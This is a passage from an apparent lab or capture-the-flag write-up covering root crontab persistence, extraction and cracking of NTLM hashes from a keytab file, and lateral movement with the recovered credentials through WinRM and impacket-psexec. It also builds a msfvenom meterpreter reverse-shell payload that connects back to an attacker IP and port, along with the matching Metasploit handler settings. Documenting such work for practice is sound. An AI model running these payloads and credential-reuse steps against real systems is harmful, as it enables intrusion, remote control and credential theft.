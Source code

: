 We are going to obtain a persistence creating a crontab task that executes a root shell every minute

![[Pasted image 20250512192954.png]]

After searching thoroughly, we find an interesting file and create a Python server to download it
![[Pasted image 20250512193149.png]]

We find a github tool that allows us to extract information from Type .Keytab Files, which may be used to authenticate linux machine to kerberos. The Script Will Extract Information Such as The Realm, main service, Encryption Type and NTLM HASH. https://github.com/sosdave/KeyTabExtract.git

![[Pasted image 20250512193909.png]]

After obtaining the hash NTLMV2 decrypte it and we get a key 

![[Pasted image 20250512194413.png]]

We used the credentials extracted from the keytab file.

![[Pasted image 20250512194651.png]]

They are valid for WinRM (Windows Remote Management).

![[Pasted image 20250512194902.png]]


They also work with PsExec.

```python
impacket-psexec 'child-admin:R0cky!@#$%@10.10.10.2'
```

![[Pasted image 20250512195600.png]]


In this step I built a payload to get a meterpreter in Metaesploit and Dumpear Credentials

```python
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.250.11 LPORT=9005 -f exe -o reverse.exe
```

![[Pasted image 20250512200042.png]]

We uploaded the EXE using the upload command in Evil-WinRM and configured msfconsole accordingly. It’s important to use the same payload in Metasploit as the one used when generating the EXE with msfvenom.

```python
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

```python
set LHOST 172.16.250.11
```

```python
set LPORT 9005
```
